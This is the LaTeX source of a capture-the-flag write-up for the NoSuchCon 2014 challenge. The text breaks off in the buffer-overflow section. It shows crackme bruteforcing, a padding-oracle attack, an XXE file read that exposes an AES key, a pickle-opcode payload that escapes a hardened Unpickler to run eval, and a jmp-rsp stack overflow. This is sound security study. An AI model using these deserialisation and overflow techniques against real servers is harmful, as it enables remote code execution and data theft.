\documentclass[a4paper]{article}
\usepackage[utf8]{inputenc}
\usepackage[top=2cm, bottom=2cm, left=2.5cm, right=2.5cm]{geometry}
\usepackage{graphicx}
\graphicspath{ {images/} }
\usepackage{todonotes}
\usepackage{listings}
%\usepackage{color}
%\usepackage[usenames,dvipsnames,svgnames,table]{xcolor}
\usepackage{caption}
\usepackage{inputenc}
\usepackage{custom}
\usepackage{float}
\usepackage{hyperref}
\usepackage[framemethod=tikz]{mdframed}
%\usepackage[none]{hyphenat}
%\usepackage{minted}
%\usepackage[francais]{babel}
\definecolor{codebg}{rgb}{0.9,0.9,0.9}
\definecolor{mygreen}{rgb}{0,0.6,0}
\definecolor{mygray}{rgb}{0.5,0.5,0.5}
\definecolor{mymauve}{rgb}{0.58,0,0.82}
\lstset{ 
  backgroundcolor=\color{white},   % choose the background color; you must add \usepackage{color} or \usepackage{xcolor}
  basicstyle=\footnotesize\tt,        % the size of the fonts that are used for the code
  breakatwhitespace=true,         % sets if automatic breaks should only happen at whitespace
  breaklines=true,                 % sets automatic line breaking
  captionpos=b,                    % sets the caption-position to bottom
  commentstyle=\color{mygreen},    % comment style
  extendedchars=true,              % lets you use non-ASCII characters; for 8-bits encodings only, does not work with UTF-8
  frame=lines,                     % adds a frame around the code
  keywordstyle=\color{blue},       % keyword style       
  numbers=left,                    % where to put the line-numbers; possible values are (none, left, right)
  numbersep=5pt,                   % how far the line-numbers are from the code
  numberstyle=\tiny\color{mygray}, % the style that is used for the line-numbers
  rulecolor=\color{black},         % if not set, the frame-color may be changed on line-breaks within not-black text (e.g. comments (green here))
  showspaces=false,                % show spaces everywhere adding particular underscores; it overrides 'showstringspaces'
  showstringspaces=false,          % underline spaces within strings only
  showtabs=false,                  % show tabs within strings adding particular underscores
  stepnumber=1,                    % the step between two line-numbers. If it's 1, each line will be numbered
  stringstyle=\color{mymauve},     % string literal style
  tabsize=2,                       % sets default tabsize to 2 spaces
  framesep=8pt,
  title=\lstname,                  % show the filename of files included with \lstinputlisting; also try caption instead of title
  postbreak=\raisebox{0ex}[0ex][0ex]{\ensuremath{\color{red}\hookrightarrow\space}}
}
\hypersetup{
    colorlinks=true,
    urlcolor=blue,
    linkcolor=black
}
\usepackage{tikz}
\usepackage{msc}
\setmsckeyword{}
\setlength\parindent{0pt}



\lstdefinelanguage
   [x64]{Assembler}     % add a "x64" dialect of Assembler
   [x86masm]{Assembler} % based on the "x86masm" dialect
   % with these extra keywords:
   {morekeywords={CDQE,CQO,CMPSQ,CMPXCHG16B,JRCXZ,LODSQ,MOVSXD, %
                  POPFQ,PUSHFQ,SCASQ,STOSQ,IRETQ,RDTSCP,SWAPGS, %
                  rax,rdx,rcx,rbx,rsi,rdi,rsp,rbp, %
                  r8,r8d,r8w,r8b,r9,r9d,r9w,r9b,r10,r11,r12,mfence,lfence,rdtsc,clflush}} % etc.

\newenvironment{info}
  {\par\begin{mdframed}[linewidth=2pt,linecolor=blue]%
    \begin{list}{}{\leftmargin=0cm
                   \labelwidth=\leftmargin}\item[]}
  {\end{list}\end{mdframed}\par}


\title{NoSuchCon Challenge 2014}
\author{
  David BERARD\\
  \texttt{david.berard@thalesgroup.com}
  \and
  Vincent FARGUES\\
  \texttt{vincent.fargues@thalesgroup.com}
}
\date{\today}

\begin{document}

\maketitle

\vspace{20 mm}
\begin{abstract}
The objective of this challenge is to find a secret password and a secret email address of the form \code{[0-9a-f]\{16\}@synacktiv.com}. The password must be sent to the secret email address to finish this challenge.\newline
This challenge starts with a Linux MIPSel binary. This is a crackme which, once given the correct key, allow the access to second step. The goal of the next level is to exploit a web vulnerability in a XML parser to get remote python code, this code contains a custom python hardened Unpickler, which have to be exploited to reach the last level.
The third level consists in exploiting a remote cryptographic service used to store encrypted messages, the remote service is based on two programs, a trusted server used for storing key materials (STPM), and a front-end server connected to this STPM, these two programs use the same shared cryptographic library. 
The front-end server contains a vulnerability (Buffer Overflow) allowing to execute a shellcode. To obtain the private key a side-channel cache attack is implemented using the vulnerability in the front-end server. Secret email address and password are found by decrypting an archived message.
\end{abstract}

\vspace{50 mm}
\begin{center}

\includegraphics[scale=0.5]{nosuchcon-logo}
\end{center}

\newpage
\begin{info}
All scripts in this document can be downloaded from the following Github repository:\newline
\href{https://github.com/polymorf/NoSuchCon-Challenge-2014}{https://github.com/polymorf/NoSuchCon-Challenge-2014}.
\end{info}
\tableofcontents{}

\newpage
\listoffigures
\lstlistoflistings

\newpage


\section{Linux MIPSel ELF reverse engineering}
\subsection{Step discovery}

This challenge begins with a TAR archive file containing a Linux binary for MIPSel architecture. The archive file is available on \href{http://www.nosuchcon.org/#challenge}{http://www.nosuchcon.org/\#challenge} since september 8th 2014.


\begin{lstlisting}[caption={},numbers=none,style=colortilde]
$ tar tzf crackmips.tar.gz
gzip: stdin: not in gzip format

$ tar xvf crackmips.tar.gz
./crackmips
\end{lstlisting}

\begin{lstlisting}[caption={},numbers=none]
$ file crackmips
crackmips: ELF 32-bit LSB executable, MIPS, MIPS-II version 1, dynamically linked (uses shared libs), for GNU/Linux 2.6.26, BuildID[sha1]=0x4a4126bef77a6e4ba6078c09655c6a64e740148e, with unknown capability 0xf41 = 0x756e6700, with unknown capability 0x70100 = 0x1040000, not stripped
\end{lstlisting}

To dynamically analyze this MIPSel binary, we used a \href{https://people.debian.org/~aurel32/qemu/mipsel/}{debian MIPSel distribution} with QEMU:

\begin{lstlisting}[caption={},numbers=none]
qemu-system-mipsel -m 256 -M malta -kernel vmlinux-3.2.0-4-4kc-malta -hda debian_wheezy_mipsel_standard.qcow2 -append "root=/dev/sda1 console=ttyS0" --nographic -redir tcp:2222::22
\end{lstlisting}

\begin{lstlisting}[caption={},numbers=none]
$ ./crackmips
usage: ./crackmips password
\end{lstlisting}

\begin{lstlisting}[caption={},numbers=none]
$ ./crackmips PASSWORD
WRONG PASSWORD
\end{lstlisting}

\subsection{Reverse engineering}

For this step, only a quick phase of reverse engineering has been done before switching to a blackbox method using statistics.\newline

However, here is a quick description of how the binary works: 
\begin{itemize}
\item First there is a check for the presence of one arg
\item This arg must be 48 characters long
\item the main process forks into two process: \begin{itemize}
\item The child loops on a big block of code: short portions of code separated by a break instruction. Each portion apply a modification on the user's input and then breaks.
\item The parent catches the signal from the child, does some black magic on registers and allows the child to continue after the break instruction
\end{itemize}
\item After all the modifications on the user's input, the string is compared to the value \code{[ Synacktiv + NSC = <3]}. If the comparison is correct, then an AES decryption is performed and you get the link to the next step.


\end{itemize}


\subsection{Data collection}

\begin{figure}[H]
    \center
    
\includegraphics[scale=0.6]{step1_memcmp}
    \caption{Compare the result of a first cryptography stage with the string \code{"[ Synacktiv + NSC = <3]"}}
\end{figure}

In the code we saw that the result of all modifications on user's input is compared with the string \code{"[ Synacktiv + NSC = <3]"}. To analyze these modifications, we loaded library containing a custom \code{memcmp} function. This custom \code{memcmp} print the value of the user's input just before the call to \code{memcmp} function.

\begin{lstlisting}[language=C,caption={LD\_PRELOAD library},numbers=none]
#include <stdio.h>
#include <stdlib.h>


int memcmp (const void *s1, const void *s2, size_t n){
	int i=0;
	int * test;
	test=(int *)s1;
	for(i=0;i<6;i++)
		printf("%08X",test[i]);
	printf("\n");
	exit(0);
}
\end{lstlisting}



\begin{lstlisting}[caption={},numbers=none,style=colortilde]
$ LD_PRELOAD=./preload.so ./crackmips AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA~AA~
5F2E17F69F9B4348755D782C9CBB0821FC9C97BC4~89B220C~
$ LD_PRELOAD=./preload.so ./crackmips AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA~BB~
5F2E17F69F9B4348755D782C9CBB0821FC9C97BC4~923220C~
\end{lstlisting}

Similar passwords yield similar results, so we start data collection with random password for a statistical analysis.

\begin{lstlisting}[language=python,caption={Collecting data},numbers=none]
import os

while True:
	i = int(os.urandom(6*4).encode("hex"),16)
	key = "%048X" % i
	result = os.popen("LD_PRELOAD=./preload.so ./crackmips "+key).read().replace("\n","")

	print key+" -> "+result
\end{lstlisting}

10 MIPSel virtual machines were used to collect data, the results were concatenated. These data were then used for statistical analysis.
\newpage
\subsection{Statistical analysis}


We know that the result of this first cryptography stage should be \code{7953205B6B63616E20766974534E202B 203D20435D20333C} (\code{"[ Synacktiv + NSC = <3]"} in the correct endianness). We see a 4-bytes block separation, when modifying a block in the password, the same block is affected on the result, other block are not affected. For this analysis, we cut the password and the result into 6 4-bytes block, and we do a statistical analysis on each block.\newline
We found some fixed bits for a given pattern, for example all passwords that generated results starting with \code{"795"} have bits 0,2,4,5,6,7,10, and 11 fixed.

\begin{lstlisting}[caption={get fixed bits for a given pattern (see listing \ref{analyze_key})},numbers=none,style=colortilde]
$ export BLOCK=0; grep -- '-> 795.....' results |python2 analyze_key.py
0 	 ==> 0
2 	 ==> 1
4 	 ==> 0
5 	 ==> 0
6 	 ==> 1
7 	 ==> 0
10	 ==> 1
11	 ==> 0
\end{lstlisting}



By using several patterns it is possible to extract all the fixed bits for a given block:
\begin{lstlisting}[caption={get fixed bits for a given block (see listing \ref{analyze_key} and listing \ref{generate_regex})},numbers=none,style=colortilde]
$ export BLOCK=0; python2 generate_regex.py |while read re; do grep -- "$re" results |python2 analyze_key.py; done |sort -n |uniq
0 	 ==> 0
1 	 ==> 0
2 	 ==> 1
3 	 ==> 1
4 	 ==> 0
5 	 ==> 0
6 	 ==> 1
7 	 ==> 0
8 	 ==> 0
9 	 ==> 0
10	 ==> 1
11	 ==> 0
12	 ==> 0
13	 ==> 1
14	 ==> 1
15	 ==> 0
16	 ==> 0
17	 ==> 1
[...]
\end{lstlisting}


All the 32 bits are found for the block 0, 28 for the block 1, 30 for the block 2, 28 for the block 3, 23 for the block 4, and 19 for the last block.
\newline
The missing bits have to be brute-forced. After a very reasonable time, these method find the password.


\subsection{Next Step}

The statistical analysis revealed the key \code{322644EF941077AB1115AB575363AE87F58E6D9AFE5C62CC}, using this key give the link to the next level of this challenge:

\begin{lstlisting}[caption={},numbers=none,style=colortilde]
./crackmips 322644EF941077AB1115AB575363AE87F58E6D9AFE5C62CC
good job!
Next level is there: ~http://nsc2014.synacktiv.com:65480/oob4giekee4zaeW9/~
\end{lstlisting}

\newpage

\section{Escape a Python hardened Unpickler}
\subsection{Step discovery}

This level start with the URL found on the previous step:\newline \href{http://nsc2014.synacktiv.com:65480/oob4giekee4zaeW9/}{http://nsc2014.synacktiv.com:65480/oob4giekee4zaeW9/}

It's a web application used in order to save messages. They seem to be stored in an encrypted/compressed format and sent to the client at each requests ("viewstate").
\newline

3 web services are identified, parameters are sent in POST data:
\begin{description}
    \item[msg.list]: list message in the list. \hfill \\
    parameters:
    \begin{itemize}
        \item vs: viewstate base64 data
    \end{itemize}
    \item[msg.add]: add a message to the list (maximum 5 messages in list)\hfill \\
    parameters:
    \begin{itemize}
        \item vs: viewstate base64 data
        \item body: message body surrounded by \code{<msg>} tag
        \item title: message title
    \end{itemize}
    \item[msg.del]: remove a message from the list.\hfill \\
    parameters:
    \begin{itemize}
        \item vs: viewstate base64 data
        \item id: message id to remove
    \end{itemize}
\end{description}

\subsection{Padding oracle on Viewstate encrypted data}

The most interesting thing seems to be the "ViewState" data. This parameter is base64 encoded, with base64 padding removed.
The result of the base64 decoded viewstate data seems to be encrypted / compressed data.

Our first attempt was to send random base64 encoded data to analyze the results, during this "fuzzing" we obtained two types of http response code:
\begin{itemize}
    \item 500: \code{corrupted viewstate}
    \item 500: \code{corrupted viewstate} followed by a zlib library error\begin{lstlisting}[caption={},numbers=none]
Error 2 while decompressing data
Error -3 while decompressing data: incorrect data check
Error -3 while decompressing data: incorrect header check
Error -3 while decompressing data: invalid bit length repeat
Error -3 while decompressing data: invalid block type
Error -3 while decompressing data: invalid code lengths set
Error -3 while decompressing data: invalid code -- missing end-of-block
Error -3 while decompressing data: invalid distance code
Error -3 while decompressing data: invalid distances set
Error -3 while decompressing data: invalid distance too far back
Error -3 while decompressing data: invalid literal/lengths set
Error -3 while decompressing data: invalid stored block lengths
Error -3 while decompressing data: invalid window size
Error -3 while decompressing data: too many length or distance symbols
Error -3 while decompressing data: unknown compression method
Error -5 while decompressing data: incomplete or truncated stream
    \end{lstlisting}
\end{itemize}

We concluded that the viewstate is compressed using zlib and then encrypted. The server returns the code \code{500: corrupted viewstate} when he is unable to decrypt the viewstate, else the server tries to decompress the decrypted data using the zlib library.
It seems that the server uses padding to detect good/bad decrypted data. In this case, we have a padding oracle. ViewState data seems to be AES 128 encrypted (16 bytes blocks), at this point of discovery we think that the aim of the step 2 is to decrypt ViewState data using this padding oracle, and then maybe encrypt custom data using this oracle.

We start a padding oracle attack on the viewstate using the code available at listing \ref{padding-decrypt}, to decrypt viewstate data. \newline

It's is not a classic padding attack since the padding seems to be shifted (i.e: one character of padding will be 0x2 instead of 0x1 in classic AES padding). So for each 16 bytes bloc, we can get only 15 bytes with the padding attack. For the last byte, we have to use the zlib error \code{Error -3 while decompressing data: incorrect header check} which is returned if the first two bytes are different of \code{0x789c}. \newline

After a long wait, we get the result, the viewstate data is a Pickle dict:

\begin{lstlisting}[caption={},numbers=none]
{'msg': [], 'display_name': 'guest'}
\end{lstlisting}

With this information, we try to send an encrypted Pickle dict with \code{'display\_name'='admin'} using the code available at listing \ref{padding-encrypt} without any success. Each encryption attempt was very long (a lot of request/response is needed).
After that we tried to send some classical Pickle exploits. With these classical exploits, we got the http result code \code{500: pickle opcode blocked}. We started to list the available Pickle opcode using the padding oracle when Synacktiv team post the following tweet:

\begin{figure}[H]
    \center
    
\includegraphics[scale=0.6]{tweet_padding_oracle}
    \caption{The padding oracle is not the solution :(}
\end{figure}

\begin{figure}[H]
    \center
    
\includegraphics[scale=0.3]{no-meme}
\end{figure}

\subsection{Clues disclosed by Synacktiv}

\begin{figure}[H]
    \center
    
\includegraphics[scale=0.6]{tweet_xxe}
    \caption{The solution seems to be a simple XXE agains \code{msg.add}}
\end{figure}


\subsection{XML External Entity (XXE)}

Thanks to the hint given on twitter we started to search XML input data in this web application.
The \code{body} argument on \code{msg.add} webservice is XML formated, and vulnerable to XML External Entity inclusion.
A Document Type Definition (DTD) included to the XML can be used to retrieve remote directory listing or remote file content.

\begin{lstlisting}[caption={Retrieve remote directory (see listing \ref{XXE-tool})},numbers=none]
$ python xxe.py "."
app.conf viewstate.pyc
\end{lstlisting}

2 files are identified with a directory listing inclusion:
\begin{itemize}
    \item app.conf: this file contains the AES key used to encrypt/decrypt viewstate data
    \item viewstate.pyc: Python 2.7 bytecode for \code{App}, \code{ViewStateUnpickler}, and \code{ViewState} classes. 
\end{itemize}


\begin{lstlisting}[caption={Retrieve remote file app.conf (see listing \ref{XXE-tool})},numbers=none,style=colortilde]
$ ./xxe.py app.conf
[global]
you_know_how_to_play_with_xxe = 1
admin_url = ~/secret.key~

[viewstate]
key = ~ab2f8913c6fde13596c09743a802ff7a~
\end{lstlisting}

\begin{lstlisting}[language=bash,caption={Retrieve remote file viewstate.pyc (see listing \ref{XXE-tool})},numbers=none,style=colortilde]
$ ./xxe.py "viewstate.pyc"  > viewstate.pyc
$ file viewstate.pyc
viewstate.pyc: ~python 2.7 byte-compiled~
\end{lstlisting}

The Python byte code can be decompiled using \href{https://github.com/gstarnberger/uncompyle/}{uncompyle byte-code decompiler}. The decompiled version allows to see a hardened Unpickler.


\begin{lstlisting}[caption={},numbers=none,style=colortilde]
$ ./uncompyler.py viewstate.pyc > viewstate.py
\end{lstlisting}


The viewstate.py also contains informations about the viewstate data format:
\begin{lstlisting}[caption={},numbers=none,style=colortilde]
view state format:
     - pickled dict
     - zlib compression
     - AES128 encryption
     - base64 encoding with padding removed
\end{lstlisting}

We tried to use the \code{/secret.key} web service but this web service was restricted to some local IPs:
\begin{lstlisting}[language=Python,caption={},numbers=none,style=colortilde]
    ADMIN_HOSTS = frozenset(['127.0.0.1', '::1', '10.0.1.200'])
# [...]
    @staticmethod
    def getMasterSecretKey(req, vs_data = None):
        assert isinstance(req, EZWebRequest)
        vs = App._load_session(vs_data)
        if vs.data.get('uid', -1) != 31337:
            raise SecurityError('not allowed from this uid')
        if req.env['REMOTE_ADDR'] not in App.ADMIN_HOSTS:
            raise SecurityError('not allowed from this IP address')
        return (vs, SecretStore.getMasterKey())
\end{lstlisting}


The aim of the the step 2 seems to be the escape of this hardened Unpickler. The AES key found in \code{app.conf} can be used to encrypt a zlib compressed pickle exploit.

\subsection{Python hardened Unpickler escape}

The custom Unpickler found on previous step restricts the Pickle opcodes to:

\begin{lstlisting}[caption={},numbers=none,style=colortilde]
;DICT            = 'd'   # build a dict from stack items
;LIST            = 'l'   # build list from topmost stack items
;TUPLE           = 't'   # build tuple from topmost stack items
;REDUCE          = 'R'   # apply callable to argtuple, both on stack
;STOP            = '.'   # every pickle ends with STOP
;MARK            = '('   # push special markobject on stack
;APPEND          = 'a'   # append stack top to list below it
;GLOBAL          = 'c'   # push self.find_class(modname, name); 2 string args
;FLOAT           = 'F'   # push float object; decimal string argument
;GET             = 'g'   # push item from memo on stack; index is string arg
;INT             = 'I'   # push integer or bool; decimal string argument
;PUT             = 'p'   # store stack top in memo; index is string arg
;SETITEM         = 's'   # add key+value pair to dict
;STRING          = 'S'   # push string; NL-terminated string argument
;UNICODE         = 'V'   # push Unicode string; raw-unicode-escaped'd argument
\end{lstlisting}

It also restricts the function name allowed to be called with the \code{REDUCE} opcode, only function names in the \code{SAFE\_BUILTINS} frozenset are allowed:

\begin{lstlisting}[language=Python,caption={},numbers=none,style=colortilde]
    SAFE_BUILTINS = frozenset([
     'bool',
     'chr',
     'dict',
     'float',
     'getattr',
     'int',
     'list',
     'locals',
     'long',
     'max',
     'min',
     'repr',
     'set',
     'setattr',
     'str',
     'sum',
     'tuple',
     'type',
     'unicode'])
# [...]
    def load_reduce(self):
        func = self.stack[-2]
        if not hasattr(func, '__module__') or not hasattr(func, '__name__') or func.__module__ != '__builtin__' or func.__name__ not in self.SAFE_BUILTINS:
            raise SecurityError('viewstate object not allowed')
        return Unpickler.load_reduce(self)
\end{lstlisting}

To simplify the construction of the Pickle exploit, we have built a tiny Pickle opcode compiler (see listing \ref{pickle-compiler}).

The \code{locals} function looks interesting, it returns a dict containing a reference to a \code{ViewStateUnpickler} instance on the index \code{"self"}
\begin{lstlisting}[caption={},numbers=none,style=colortilde]
{'self': ~<viewstate.ViewStateUnpickler instance at 0x7fb2fe940518>~, 'args': (), 'stack': [{...}, <type 'str'>], 'func': <built-in function locals>}
\end{lstlisting}

There is no pickle opcode to retrieve an element in the dict, and there is no authorized functions neither so we have to use something else to retrieve the \code{ViewStateUnpickler} instance in the dict generated by \code{locals} function.\newline

The builtin function \code{type} with three arguments can be used to create a new object:
\begin{itemize}
    \item arg1: The name string is the class name and becomes the \code{\_\_name\_\_} attribute.
    \item arg2: The bases tuple itemizes the base classes and becomes the \code{\_\_bases\_\_} attribute.
    \item arg3: the dict dictionary is the namespace containing definitions for class body and becomes the \code{\_\_dict\_\_} attribute.
\end{itemize}

Using the dict generated by the \code{locals} function as the third argument to \code{type} function permit to retrieve the \code{ViewStateUnpickler} instance with the \code{getattr} function:
\begin{lstlisting}[language=Python,caption={},numbers=none,style=colortilde]
GLOBAL '__builtin__ locals'
MARK
        TUPLE
REDUCE
PUT 100

GLOBAL '__builtin__ type'
MARK
        STRING "X"
        MARK
                GLOBAL '__builtin__ list'
                TUPLE
        GET 100
        TUPLE
REDUCE
PUT 100

GLOBAL '__builtin__ getattr'
MARK
        GET 100
        STRING "self"
        TUPLE
REDUCE
PUT 100
 
GLOBAL '__builtin__ str'
MARK
		GET 100
        TUPLE
REDUCE
PUT 101
 
MARK
	DICT
	STRING 'msg'
	GET 101
SETITEM

STOP
\end{lstlisting}

With the reference to the \code{ViewStateUnpickler} instance it's possible to redefine the \code{SAFE\_BUILTINS} list to allow new functions.

We add the builtin \code{eval} function to the \code{SAFE\_BUILTINS} to execute python code on the server. The following pickle code (get constants of \code{SecretStore.getMasterKey} function) is used to retrieve the link to the next step (full pickle exploit available at listing \ref{Pickle_escape}):
\begin{lstlisting}[language=Python,caption={},numbers=none,style=colortilde]
GLOBAL '__builtin__ globals'
MARK
	TUPLE
REDUCE
PUT 104

GLOBAL '__builtin__ eval'
MARK
	STRING 'str(__import__("viewstate").SecretStore.getMasterKey.func_code.co_consts)'
	GET 104
	TUPLE
REDUCE
PUT 105
\end{lstlisting}

\begin{lstlisting}[caption={Escape the Unpickler (see listing \ref{Pickle_aes})},numbers=none,style=colortilde]
$ python2 pickle_aes.py
(None, 124, 'getMasterKey() caller not authorized (opcode %i/%i)', 'viewstate.py', 'getMasterKey() caller not authorized', 'getMasterSecretKey', 'getMasterKey() caller not authorized (function %s/%s)', 'master_key=~http://nsc2014.synacktiv.com:65480/OhXieK1hEizahk2i/securedrop.tar.gz~')
\end{lstlisting}



\newpage

\section{Exploit remote cryptographic services}
\subsection{Step discovery}
The level starts with an archive \code{securedrop.tar.gz }.

\begin{lstlisting}[language=bash,caption={Extraction of the step 3 archive},numbers=none,style=colortilde]
$ tar xzvf securedrop.tar.gz 
securedrop/
securedrop/client/
securedrop/client/client.py
securedrop/archive/
securedrop/archive/messages
securedrop/servers/
securedrop/servers/SecDrop
securedrop/servers/xinetd.conf/
securedrop/servers/xinetd.conf/secdrop
securedrop/servers/xinetd.conf/stpm
securedrop/servers/STPM
securedrop/lib/
securedrop/lib/libsec.so
\end{lstlisting}

There are two ELF x86-64 binary files and a shared library used by both binaries. The folder \code{xinetd.conf} contains the xinetd configuration for both binaries mentioned earlier. A python client for \code{SecDrop} server is also present on this archive. 

\begin{lstlisting}[language=bash,caption={Xinetd configuration},numbers=none,style=colortilde]

# default: off
# description: An xinetd internal service which echo's characters back to
# clients.
# This is the tcp version.
service secdrop
{
        port            = 1337
        user            = secdrop
        socket_type     = stream
        protocol        = tcp
        type            = UNLISTED
        wait            = no
        instances       = 1
        server          = /home/secdrop/SecDrop 
        server_args     = /home/secdrop/messages
}

# default: off
# description: An xinetd internal service which echo's characters back to
# clients.
# This is the tcp version.
service stpm
{
        port            = 2014
        user            = stpm
        socket_type     = stream
        protocol        = tcp
        type            = UNLISTED
        wait            = no
        instances       = 1
        server          = /home/stpm/STPM
        server_args     = /home/stpm/keyfile
}
\end{lstlisting}

From these configuration files, we were able to understand the usage of both binaries. The STPM binary takes a key file as argument and listen on port 2014 (we will see later that it is only on local interface) and SecDrop takes a file as argument where messages are saved and listen on port 1337 (remote and local). After looking at the messages file content, we understand that the messages are saved after encryption.
\newpage
\begin{lstlisting}[language=python,caption={File messages},numbers=none,style=colortilde]
$ cat archive/messages 
new message:
0C849AFE0A7C11B2F083C32E7FDB0F8AC03198D84D9990B26D6443B1D185A36A235A561BB99FE897858
371311B2AD6DFE75E199667637EDEA7B9C14A158A5F6FFE15A1C14DAD808FDC9F846530EDD4FE3E86F4
F98571CD45F11190ED531FC940D62C2C2E05F99772235808097763157F140FE4A57DB6AD902D9962F12
BDFC1547CED3E282604255B2A5331373CAEE557CC825DD6A03C3D2D7B106E4AD15347BCB5067BDC6037
6FF1CC133F2C14 
9d41dbb8da10b66cdde844f62e9cc4f96c3a88730b7b8307810cf1906935123f97ac9b682dd401512d1
8775bd7bd9b8b40929f5b4a1871ba44c94038793f0aa639b9d71d72d2accfcc95671c77a5c1c32bc813
b048f5dcb1f08b59d6a7afb3b34462ac6abb69cb70accb24d78389a1777c5244b8063c542cc1f6c6db8
d41d32df2e7132e21db8a1cc711c1a97c51ba29f1d1ac8fa901a902b2a987f0764734f8b8cd2d476200
e7ae62a424e2930d8b029409d0e5e13d4e11f4b5f5cc1263f41b500b4340b8641465bbc56c64a575f0e
e215d02dea3d75552328cf5742c 
\end{lstlisting}

At this point of the discovery, we understand that the aim of the step 3 is the decryption of the archived message present in the archive.
\newline

The last step of the discovery is the analyze of the \code{client.py} file. This client connects to the server at \code{nsc2014.synacktiv.com:1337} and sends a message which can be divided into three parts:
\begin{itemize}
\item Hardcoded password: UBNtYTbYKWBeo12cHr33GHREdZYyOHMZ
\item Random AES 128 bits key padded according to PKCS 1.5 and encrypted with the RSA public key
\item User input encrypted with the AES key
\end{itemize}




\subsection{Clues disclosed by Synacktiv}

\begin{figure}[H]
    \center
    
\includegraphics[scale=0.6]{tweet_cache_attack}
    \caption{Cache attack is the solution of step 3}
\end{figure}
\newpage
\subsection{Linux x86-64 Reverse engineering}
The target is composed of two x64 binaries(\code{SecDrop} and \code{STPM}) and one shared lib (\code{libsec.so}).

\subsubsection{SecDrop}
The entry point for user's input is the SecDrop binary listening on port 1337.
The main function can be understood as follow: \newline



\begin{lstlisting}[language=bash,caption={Handling of user's input in SecDrop binary},numbers=none,style=colortilde]
Open argv[2] as a file to save messages
Connection to STPM service on localhost:2014
Restrict allowed syscall to sys_read, sys_write, sys_exit

Handle of user's input: 
passwd = read(stdin,33)
if(passwd=="UBNtYTbYKWBeo12cHr33GHREdZYyOHMZ"){
	Receive encrypted key as K
	send "3\n2\n0\nK" to STPM through socket 
	Receive encrypted message as M
	Send "2\n2\nM" to STPM through socket 
	Store encrypted key and message in log file
	}

\end{lstlisting}


\subsubsection{STPM}
After understanding how SecDrop handles user's input, we have to understand how the message sent by SecDrop binary to STPM binary through the socket are handled. \newline

As its name suggets, STPM binary is a Software Trusted Platform Module used to store keys and to perform cryptographic operations such as decryption and encryption.
The STPM provides a container able to store 16 keys (private RSA key or AES key). At startup, the binary uses argv[2] as a configuration file where keys are stored. The binary loads the key from the config file into the container. Each key is identified by a number from 0 to 15.\newline

The process accepts various command:
\begin{itemize}
\item \textbf{1}: Print all keys from the safe (only public modulus and exponent are printed)
\item \textbf{2}: Message\_decrypt(key\_to\_use,message): The message is decrypted with the AES key at the index key\_to\_use. This function returns "OK" encrypted with the AES key
\item \textbf{3}: import\_key(number\_in\_safe,rsa\_key\_to\_decrypt,ciphered\_key): The ciphered key is decrypted using RSA with private key stored at index rsa\_key\_to\_decrypt and stores clear AES key into index number\_in\_safe. The functions returns "\textbackslash{}n"
\item \textbf{4}: export\_key(number\_in\_safe,rsa\_key): The key stored in safe at index number\_in\_safe is encrypted using public RSA key stored rsa\_key index and ciphered key is returned.
\item \textbf{5}: exit
\end{itemize}

\subsubsection{libsec.so}
The \code{libsec.so} shared lib is used by both binaries to perform crypto operations. The main functions are: 
\begin{itemize}
\item SEC\_unwrap: RSA decryption
\item SEC\_wrap: RSA encryption
\item SEC\_decrypt: AES decryption
\item SEC\_encrypt: AES encryption
\end{itemize}

Later in this document the SEC\_unwrap function will be analyzed more carefully in order to perform the Cache attack

\subsubsection{Interactions between process}

The interactions between SecDrop and STPM binaries can be summarized in the following figure

\begin{figure}[H]
    \center
    \begin{msc}{}{}
    \setlength{\instdist}{.3\textwidth}%
    \tt
    \declinst{client}{}{client}%
    \declinst{secdrop}{}{SecDrop}%
    \declinst{stpm}{}{STPM}%
    \mess{PASSWORD\textbackslash{}n}{client}{secdrop}
    \nextlevel
    \mess{RSA\_encrypted\_AES\_key\textbackslash{}n}{client}{secdrop}
    \mess{3\textbackslash{}n2\textbackslash{}n0\textbackslash{}nRSA\_encrypted\_AES\_key}{secdrop}{stpm}
    \nextlevel
    \mess{\textbackslash{}n}{stpm}{secdrop}
    \nextlevel
    \mess{AES\_encrypted\_message\textbackslash{}n}{client}{secdrop}
    \mess{2\textbackslash{}n2\textbackslash{}nAES\_encrypted\_message}{secdrop}{stpm}
    \nextlevel
    \mess{AES\_encrypted\_message ("OK")}{stpm}{secdrop}
    \nextlevel
    \mess{AES\_encrypted\_message ("OK")}{secdrop}{client}
    \end{msc}
    \caption{Messages exchange using client.py}
\end{figure}

\subsection{Buffer overflow on SecDrop server}

\begin{figure}[H]
    \center
    
\includegraphics[scale=0.6]{buffer_overflow_secdrop}
    \caption{Vulnerable function in SecDrop}
\end{figure}

The \code{SecDrop} program reads the input data on the standard input, the RSA encrypted AES key and the AES encrypted message are read character by character by the function at \code{0x400F70}.
This function appends the readed character to a destination buffer, the function stop reading when a \code{\textbackslash{}n} character is readed.

It is possible to do a buffer overflow in the destination buffer to override the \code{rip} register, then the execution will continue on the overriden value.

The \code{SecDrop} binary contains a very helpful \code{"jmp rsp"} opcode, which allows to place a shellcode on the stack and jump on it.

\begin{figure}[H]
